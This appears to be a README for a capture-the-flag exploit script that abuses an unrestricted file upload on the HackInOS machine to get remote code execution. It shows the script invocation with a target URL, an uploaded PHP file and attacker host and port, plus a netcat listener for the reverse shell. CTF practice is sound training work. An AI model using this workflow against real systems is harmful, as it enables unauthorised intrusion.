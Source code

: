 # HackInOS_RCE
Exploit the Unrestricted File Upload to gather Remote Code Execution for CTF HackInOS.

# Usage
`python3 HackInOS_RemoteFileUpload.py <url_of_machine> <file_to_upload> <lhost> <lport>`

If `LHOST` and `LPORT` are specified, prepare a terminal with `netcat` up and running in listening to the <lport> port.
Example:

In one terminal:
```
python3 HackInOS_RemoteFileUpload.py http://localhost:8000 HIOS_RCE.php 10.0.0.105 4444
```
In another terminal:
```
nc -vlp 4444
```
If `LPORT` and `LHOST` are not set, the script will only upload the file and output his location.


# Dependencies
It requires `Python3` and the library `requests`.

# Screenshot
![Screenshot](./screenshot.png)